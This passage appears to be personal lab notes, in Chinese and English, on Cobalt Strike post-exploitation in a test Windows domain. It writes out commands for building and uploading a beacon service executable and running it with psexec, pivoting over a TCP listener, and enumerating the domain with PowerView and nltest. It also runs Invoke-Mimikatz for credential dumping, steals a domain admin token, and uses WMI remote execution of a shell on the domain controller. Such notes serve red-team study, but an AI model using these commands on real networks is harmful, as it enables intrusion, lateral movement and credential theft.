 1. New Listener Name: `local - tcp(pivoting)`

```
Payload: Beacon TCP
Port: 6667
```

2. Windows Executable(Stageless)

```
Listener: local - tcp(pivoting)
Output: Windows Service EXE
x64: √Use x64 Payload
Filename: svcbeacon.exe
```

3. File Browser: 10.10.10.191@816 打开 `\\FILESERVER\C$\windows\temp` 上传 `svcbeacon.exe`
4. `10.10.10.191@816 beacon > remote-exec psexec FILESERVER c:\windows\temp\svcbeacon.exe`
5. `SSH 10.10.10.21 beacon > connect FILESERVER.corp.acme.com 6667`
   ![](https://s2.loli.net/2023/01/26/WCGNib3OTuZQU6S.png)

查看 Pivot： `Sesssion 右击 - Explore - Browser Pivot`

### Domain

[Link](https://www.youtube.com/watch?v=QF_6zFLmLn0)

```sh
beacon > net domain
beacon > net computers
beacon > powershell-import /root/PowerSpLoit/Recon/Powerview.ps1
beacon > powerpick Get-NetDomain
beacon > powerpick Get-NetDomainController
beacon > powerpick Get-NetComputer
beacon > run wmic computersystem get domain
beacon > run nltest /dclist:corp.acme.com
beacon > run c:\windows\sysnative\nltest.exe /dclist:corp.acme.com
beacon > run net group "Domain Controllers" /DOMAIN
beacon > run net group "Domain Computers"/DOMAIN
beacon > powerpick Find-LocalAdminAccess
beacon > run net group "domain admins" /DOMAIN  # 显示sqladmin
beacon > net group \\DC.CORP.ACHE.COH Domain Admins # 同上
beacon > net localgroup \\FILESERVER Administrators
# 直接右击Session - File Explorer, 可在地址栏输入 \\FILESERVER
beacon > powerpick Invoke-Command -ComputerName FILESERVER -ScriptBlock {dir c:\ }
beacon > powerpick Invoke-Command -ComputerName FILESERVER -ScriptBlock { systeminfo }
beacon > powershell-import /root/PowerSploit/Exfiltration/Invoke-Mimikatz.ps1
beacon > powerpick Invoke-Mimikatz -ComputerName FILESERVER
beacon > steal_token [pid]  # 偷域管身份
```

**Steal Token**

1. 没有权限，先看 processlist, 然后 steal token, 再 ls(有权限了)
2. file explorer: `\\DC\C$` 上传
3. remote-exec wmi DC c:\windows\temp\shell.exe -mon \\.\pipe\monitorsrv
4. link DC xxx
